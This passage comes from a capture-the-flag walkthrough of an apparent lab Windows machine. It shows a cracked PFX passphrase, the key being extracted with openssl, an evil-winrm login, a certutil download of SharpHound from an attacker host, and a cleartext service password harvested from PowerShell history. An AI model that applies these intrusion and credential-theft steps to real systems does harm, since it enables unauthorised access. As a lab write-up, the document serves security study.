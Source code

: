 ```bash
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
thuglegacy       (legacyy_dev_auth.pfx)
```
Now that we get the passphrase for the PFX certificate, we need to extract its content. Searching on the Internet, we find this guide [How to Extract Certificate and Private Key from PFX](https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/) basically we need to run two commands:
```bash
# Extract the public certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out publicCert.pem               
# Extract the private key (don't forget to use the .pfx passphrase)
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes  
Enter Import Password:
```
Now that we get this two files, we can proceed to access the machine:
```bash
evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S 
```
### Privilege Escalation
It was not possible to upload SharpHound.exe nor SharpHound.ps1
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> certutil -urlcache -f http://10.10.14.3/SharpHound.exe SharpHound.exe
At line:1 char:1
+ certutil -urlcache -f http://10.10.14.3/SharpHound.exe SharpHound.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```
First step is to enumerate manually our user:
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
No special privileges that could lead to a PrivEsc, it is not possible to run wmic either:
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> wmic process list brief
WMIC.exe : ERROR:
Description = Access denied
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> wmic computersystem list
WMIC.exe : ERROR:
Description = Access denied
```
A good technique for privilege escalation on Windows is to read the [Powershell History](https://shuciran.github.io/posts/Powershell-History/)[^powershell-history] located in the PATH:  
```powershell
C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
In this case, we found some credentials in clear text on the history:
```powershell
*Evil-WinRM* PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
```

[^Get-LAPSPasswords]: Powershell Utility to read LAPS passwords
[^readlapspassword]: Python utility to read LAPS passwords
[^pfx-certificate]: PFX Certificate login
[^ldap-enumeration]: LDAP Enumeration
[^powershell-history]: Powershell History